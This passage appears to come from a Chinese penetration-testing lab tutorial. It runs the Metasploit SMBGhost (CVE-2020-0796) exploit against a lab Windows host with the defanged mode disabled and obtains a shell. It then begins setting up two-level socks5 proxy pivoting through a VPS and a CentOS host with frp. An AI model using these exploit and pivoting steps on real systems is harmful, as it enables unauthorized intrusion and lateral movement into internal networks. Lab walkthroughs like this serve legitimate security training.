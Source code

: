 ```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set rhosts 192.168.4.103
```

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set lport 19988
```

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set DefangedMode false
```

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > run
```

> 得到 shell

## 6.4 二级代理

实验环境

| 实例                                             | 描述                                                         |
| ------------------------------------------------ | ------------------------------------------------------------ |
| Kali<br/>192.168.1.53                            | 桥接模式<br />192.168.1.24                                   |
| Vps<br />39.105.143.115                          | 123.56.167.168                                               |
| CentOS<br />192.168.1.63<br />192.168.110.63     | 桥接模式<br />192.168.6.76<br />仅主机模式<br />192.168.4.76 |
| Windows-1<br />192.168.110.57<br />192.168.88.57 | 仅主机模式<br />192.168.4.103<br />192.168.9.103             |
| Windows-2<br />192.168.88.58                     | 仅主机模式<br />192.168.9.102                                |

> Centos 映射 socks5 代理到 VPS：9999 端口使 Kali（攻击者）可访问内网 4 网段
>
> Win10-1 映射 socks5 代理到 Centos：8888 端口，使 Kali（攻击者）可访问 9 网段
>
> Kali 通过 VPS 9999 端口访问 4 然后通过 8888 端口访问 9 网段资源。攻击 192.168.9.102

在 Windows-1 查看 IP

```
meterpreter > route
```

>发现还有 192.168.9.1 网段

配置 Centos Frps

```
[root@CentOS-76 hello]# vim frps.ini
```

```
[common]
bind_port = 7000
```

启动 Centos Frps
